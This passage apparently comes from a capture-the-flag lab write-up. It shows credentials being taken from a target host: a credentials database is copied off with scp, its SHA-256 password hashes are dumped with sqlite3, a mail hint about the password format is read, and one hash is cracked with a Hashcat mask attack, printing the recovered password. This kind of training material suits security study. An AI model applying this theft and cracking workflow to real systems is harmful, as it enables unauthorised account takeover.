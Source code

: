 Transferred the database to the attacker machine using `scp`:

```bash
scp susan@10.10.11.253:/home/susan/Migration/pupilpath_credentials.db .
```

Queried the database with SQLite3:

```bash
sqlite3 pupilpath_credentials.db
.tables
users
select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

The hashes appeared to be SHA-256. A mail file provided a password format hint:

```bash
cat /var/mail/susan
```

**Content:**

> Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is: `{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}`. Note that all letters of the first name should be converted into lowercase. Please hit me with updates on the migration when you can. I am currently registering our university with the platform. - Tina, your delightful student

---

## Lateral Movement

### Password Cracking

Using the password format `susan_nasus_<number>`, the SHA-256 hash for Susan Miller was cracked with Hashcat:

```bash
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f "susan_nasus_?d?d?d?d?d?d?d?d?d" --increment --increment-min=1
```

**Result:**

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

The password `susan_nasus_413759210` was confirmed for `susan`.

---